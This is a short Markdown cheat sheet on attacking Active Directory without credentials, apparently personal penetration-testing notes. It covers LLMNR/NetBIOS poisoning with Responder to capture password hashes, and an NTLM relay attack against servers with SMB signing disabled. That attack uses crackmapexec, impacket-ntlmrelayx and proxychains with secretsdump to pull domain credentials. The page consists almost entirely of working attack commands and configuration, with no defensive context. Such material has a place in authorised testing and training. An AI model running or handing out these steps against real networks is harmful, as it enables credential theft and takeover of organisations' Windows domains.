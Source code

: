 ```yaml
---
title: AD Attacks
category: Active Directory
order: 2
---
```


# Without Credentials

## LLMNR / NetBIOS Poisoning

We can grab some hashed credentials if LLMNR protocol is enabled.

```
sudo responder -I eth0 -Fw
```

After some time we can get all the hashes.

```
cd /usr/share/responder
sudo python DumpHash.py
```

## NTLM Relay (SMB signing disabled)

Some tiems some server are misconfigured and have the smb signing disabled, so we can perform more attacks with responder.

### Configuration

* /etc/proxychains4.conf

```
socks4  127.0.0.1       1080
```

* /usr/share/responder/Responder.conf

```
[Responder Core]

; Servers to start
SMB = Off
HTTP = On
```

### Perform the attack

We need to get a list of the servers with the SMB sigining disabled.

```
crackmapexec smb --gen-relay-list vulnerable_servers.txt 10.10.10.0/24
```

Execute the attack with Responder and Impacket.

```
impacket-ntlmrelayx.py -tf ./vulnerable_servers.txt -socks -smb2support
sudo responder -I eth0
```

We can list the current sessions with the next command.

```
ntlmrelayx> socks
```

When a session with administrative privileges is found we can use secretsdump or other tool with proxychains to use the session captured.

```
proxychains impacket-secretdump DOMAIN/admin@IP
```
